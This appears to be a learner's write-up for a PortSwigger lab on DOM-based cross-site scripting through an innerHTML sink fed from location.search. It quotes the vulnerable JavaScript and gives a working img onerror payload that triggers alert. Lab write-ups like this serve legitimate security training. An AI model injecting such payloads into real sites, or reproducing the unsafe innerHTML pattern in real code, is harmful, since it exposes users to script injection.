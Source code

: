 # [Lab: DOM XSS in innerHTML sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

## Lab

This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`.

To solve this lab, perform a cross-site scripting attack that calls the `alert` function.

## Analysis

review source code:

- interesing js block:

  ```js
  <script>
      function doSearchQuery(query) {
          document.getElementById('searchMessage').innerHTML = query;
      }
      var query = (new URLSearchParams(window.location.search)).get('search');
      if(query) {
          doSearchQuery(query);
      }
  </script>
  ```

  - query is a variable controlled by user

## Solutions

first try: `<script>alert(1)</script>`

fail:

```html
<span id="searchMessage"><script>alert(1)</script></span>
```

solution: `<img src=1 onerror="alert(1)">`

success:

```html
<span id="searchMessage"><img src="1" onerror="alert(1)"></span>
```
